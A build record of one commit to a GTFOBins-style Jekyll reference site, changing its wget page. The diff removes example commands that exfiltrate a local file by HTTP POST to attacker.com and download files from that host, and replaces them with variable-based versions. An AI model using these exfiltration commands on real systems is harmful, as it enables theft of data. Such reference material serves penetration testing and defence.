

Before and after one commit to GTFOud/GTFOud.github.io, a Jekyll site: the page built from _gtfoud/wget.md, in a window 1280 px wide, cut to the strip 339-860 px from the top of the page. Shown: the whole strip, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update wget.md

```diff
--- a/_gtfoud/wget.md
+++ b/_gtfoud/wget.md
@@ -3,13 +3,9 @@ functions:
   file-upload:
     - description: Send local file with an HTTP POST request. Run an HTTP service on the attacker box to collect the file. Note that the file will be sent as-is, instruct the service to not URL-decode the body. Use `--post-data` to send hard-coded data.
       code: |
-        URL=http://attacker.com/
-        LFILE=file_to_send
-        wget --post-file=$LFILE $URL
+        wget --post-file=$LFILE $RPATH
   file-download:
     - description: Fetch a remote file via HTTP GET request.
       code: |
-        URL=http://attacker.com/file_to_get
-        LFILE=file_to_save
-        wget $URL -O $LFILE
+        wget $RPATH -O $NFILE
 ---
```
